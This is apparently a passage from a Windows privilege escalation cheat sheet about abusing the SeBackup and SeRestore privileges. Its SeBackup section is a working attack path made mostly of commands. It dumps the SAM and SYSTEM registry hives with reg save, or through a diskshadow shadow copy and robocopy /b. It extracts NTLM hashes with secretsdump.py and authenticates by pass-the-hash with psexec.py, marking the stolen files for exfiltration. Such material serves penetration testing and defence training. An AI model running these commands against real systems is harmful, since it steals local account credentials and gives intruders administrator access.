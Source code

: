 ## SeBackup
>The system is caused to **grant all read access** control to any file (limited to read operations) by this privilege. It is utilized for **reading the password hashes of local Administrator** accounts from the registry, following which, tools like "**psexec**" or "**wmiexec**" can be used with the hash (Pass-the-Hash technique). However, this technique fails under two conditions: when the Local Administrator account is disabled, or when a policy is in place that removes administrative rights from Local Administrators connecting remotely.
>Tool : https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Acl-FullControl.ps1

### Exploitation Path
1. Enable the privilege in the token
2. Export the `HKLM\SAM` and `HKLM\SYSTEM` registry hives:
`cmd /c "reg save HKLM\SAM SAM & reg save HKLM\SYSTEM SYSTEM"`
3. Eventually transfer the exported hives on a controlled computer
4. Extract the local accounts hashes from the export `SAM` hive. For example using `Impacket`'s `secretsdump.py` Python script:  
`secretsdump.py -sam SAM -system SYSTEM LOCAL` 
5. Authenticate as the local built-in `Administrator`, or another member of the local `Administrators` group, using its `NTLM` hash (Pass-the-Hash). For example using `Impacket`'s `psexec.py` Python script:
`psexec.py -hashes ":<ADMINISTRATOR_NTLM>" <Administrator>@<TARGET_IP>`
Alternatively, can be used to read sensitive files with `robocopy /b`

```powershell
# Check privileges
whoami /priv

# Craft diskshadow txt file
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

# execute with diskshadow.exe, to have a shadow copy
diskshadow.exe /s c:\temp\diskshadow.txt

# Now that the shadow copy has been successfully created and exposed as Z:, we can use the following **robocopy** commands to extract a copy of the SYSTEM and SAM files from Z:\windows\system32\config:
robocopy /b Z:\Windows\System32\Config C:\temp SAM 
robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM

# exfiltrate !!
```

## SeRestore
>Permission for **write access** to any system file, irrespective of the file's Access Control List (ACL), is provided by this privilege. It opens up numerous possibilities for escalation, including the ability to **modify services**, perform DLL Hijacking, and set **debuggers** via Image File Execution Options among various other techniques.
